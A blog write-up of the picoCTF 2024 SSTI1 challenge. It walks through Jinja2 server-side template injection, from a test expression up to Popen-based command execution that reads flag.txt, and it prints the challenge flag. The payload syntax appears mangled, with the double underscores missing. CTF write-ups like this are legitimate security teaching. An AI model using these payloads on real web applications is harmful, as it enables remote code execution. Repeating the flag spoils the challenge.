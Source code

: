 ```yaml
---
layout: post
title: PicoCTF_SSTl1_easy
date: 13-05-2025
categories: [PicoCTF]
tag: [Easy CTF]

---
```


Welcome to DarkR7 blogs.....

# Heading

```shell
I am DarkR7...
```


# picoCTF 2024: SSTI1 Challenge Writeup

## 📌 Challenge Description

> Can you exploit this website? Try to get the website to evaluate a Jinja expression.  


> Link: http://rescued-float.picoctf.net:59626/
 


## 🧠 Understanding the Challenge

This is a **Server-Side Template Injection (SSTI)** challenge using the **Jinja2** template engine.

Our goal is to inject Jinja2 expressions to get the server to execute arbitrary code and ultimately leak the flag.



## 🛠️ Step-by-Step Solution

### 1. Open the Website

The page asks for input and returns it rendered back. This suggests it may be vulnerable to SSTI.

![Initial Site](images/Screenshot_2025-05-13_14_46_53.png)


![The site](images/Screenshot_2025-05-13_14_48_45.png)



### 2. Test for Injection

We enter a basic test string: 

**&#123;&#123;7*8&#125;&#125;**

If the site returns `56`, then SSTI is confirmed.

![SSTI Test](images/Screenshot_2025-05-13_14_51_15.png)


![test result](images/Screenshot_2025-05-13_14_51_21.png)



### 3. Try Accessing Built-ins

To escalate, we inject the following payload to access built-ins:


**&#123;&#123;''.class.mro[2].subclasses()&#125;&#125;**


This gives access to all subclasses, including `Popen`.





### 4. Find `subprocess.Popen` Index

We locate the index of `subprocess.Popen` subclass from the list and use it to execute code. Example:

**&#123;&#123;''.class.mro[2].subclasses()[&lt;index&gt;]("ls", shell=True, stdout=-1).communicate()&#125;&#125;**


Try commands like `cat flag.txt`.



### 5. Extract the Flag

Eventually, we find the flag using a working payload like:

**&#123;&#123;''.class.mro[2].subclasses()[&lt;index&gt;]("cat flag.txt", shell=True, stdout=-1).communicate()&#125;&#125;**



And finally...

![Flag Final](images/sst1.png)



## 🏁 Flag

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}




## 📚 Concepts Learned

- Server-Side Template Injection (SSTI)
- Jinja2 internals
- Python object hierarchy
- Remote code execution using template injection



## ✅ Tips

- Always test for SSTI using `{{7*7}}`
- Use introspection to access sensitive functions
- Be cautious with payload indexing; try printing small batches to locate targets like `Popen`

